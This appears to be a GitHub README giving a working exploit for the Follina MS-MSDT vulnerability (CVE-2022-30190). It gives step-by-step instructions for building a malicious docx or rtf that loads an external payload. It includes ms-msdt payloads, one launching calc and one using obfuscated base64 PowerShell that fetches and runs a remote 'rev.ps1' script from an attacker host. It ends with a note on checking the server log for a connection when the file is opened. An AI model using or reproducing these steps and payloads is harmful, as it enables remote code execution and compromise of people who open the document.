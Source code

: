 # MS-MSDT-Office-RCE-Follina
CVE-2022-30190 | MS-MSDT Follina One Click

1. Create a Docx file.
2. In the Docx file, Insert > Object > Bitmap Image > Ok
3. In the Paint application that launched, save the Paint file.
4. Save your Docx file.
5. Open your file as an archive (With 7Zip; Right Click > 7Zip > Open Archive.)
6. Copy out the Document.xml from \Word\ and document.xml.rels file from \word_rels\
7. Open/Edit the \word\_rels\Document.xml.rels and locate the relationship XML Tag with "/relationships/oleObject". After this replace the destination in "Target=" to your remote destination where it will grab the payload from. Also add "TargetMode="External"" to the XML Tag.
8. Compress back to Docx file (Send to > Compressed (zipped) folder  |  Rename file type from zip > docx/doc )

--------------------------------------------------------------------------------------------------------
## RTF Format
Once a docx file has been created, save it as an rtf.

--------------------------------------------------------------------------------------------------------
The act of recompressing can be observed from JohnHammond's Python Script as well:
    ~ Rebuild the original office file ~
    shutil.make_archive(args.output, "zip", doc_path)
    os.rename(args.output + ".zip", args.output)
    
Reference: https://github.com/JohnHammond/msdt-follina/blob/main/follina.py



--------------------------------------------------------------------------------------------------------





##Payloads (Basic Calc Execute):

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Start-Process('calc'))i/../../../../../../../../../../../../../../Windows/system32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>


Can Replace the Start-Process('calc') with:
> IEX('calc.exe')
--------------------------------------------------------------------------------------------------------
##PS1 File Load:

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'cG93ZXJzaGVsbC5leGUgLWMgImlleCAoaXdyIGh0dHA6Ly8xOTIuMTY4LjE5OC4xMjgvcmV2LnBzMSAtVXNlQmFzaWNQYXJzaW5nKSIK'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>  


Decoded:
Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("powershell.exe -c "iex (iwr http://192.168.198.128/rev.ps1 -UseBasicParsing)""))

--------------------------------------------------------------------------------------------------------
##Apache2 access.log should show connection upon opening file
![Log Example](/log.png?raw=true "Example")


